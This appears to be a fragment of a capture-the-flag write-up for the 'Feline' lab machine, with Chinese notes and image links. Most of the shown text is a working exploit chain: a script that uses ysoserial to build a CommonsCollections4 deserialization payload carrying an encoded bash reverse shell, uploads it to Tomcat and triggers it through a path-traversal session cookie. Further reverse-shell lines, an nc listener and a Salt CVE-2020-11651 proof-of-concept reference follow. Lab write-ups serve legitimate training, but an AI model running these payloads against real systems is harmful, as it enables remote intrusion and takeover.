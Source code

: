 `/opt/tomcat/temp/upload_ba8f5476_d3f6_4607_9672_49d90e5b8353_00000021.tmp`

https://github.com/frohoff/ysoserial

`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar`

`mv ysoserial-master-SNAPSHOT.jar ysoserial.jar`

exploit.sh
```bash
filename=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)
ip=$1
port=$2
cmd="bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
jex="bash -c {echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"
java -jar ysoserial.jar CommonsCollections4 "$jex" > /tmp/$filename.session
curl -s -F "data=@/tmp/$filename.session" http://10.10.10.205:8080/upload.jsp?email=test@mail.com > /dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../../../../../../opt/samples/uploads/$filename" > /dev/null
```

`chmod +x exploit.sh`

`exploit.sh 10.10.14.24 1337`

![]({{ site.url }}/assets/Feline_205.assets/20201120090417423_2053908126.png)

![]({{ site.url }}/assets/Feline_205.assets/20201120090441439_1381731804.png)

![]({{ site.url }}/assets/Feline_205.assets/20201120091639043_655469781.png)

![]({{ site.url }}/assets/Feline_205.assets/20201120091804181_2036983804.png)


![]({{ site.url }}/assets/Feline_205.assets/20201120091916774_402493354.png)

`https://gist.github.com/SwitHak/8e7fa45b5656c691ddf13c8c47e8fda6`

![]({{ site.url }}/assets/Feline_205.assets/20201120092047175_132312628.png)

`https://github.com/jasperla/CVE-2020-11651-poc`

下载到kali

按照poc我们应该先准备一个root shell脚本

`echo "bash -c 'bash -i >& /dev/tcp/10.10.14.24/1338 0>&1'" > root_shell.sh`
`nc -nvlp 1338`
先端口转发，使用chisel

上传到靶机

![]({{ site.url }}/assets/Feline_205.assets/20201120092853222_1132764151.png)

/tmp下会删除
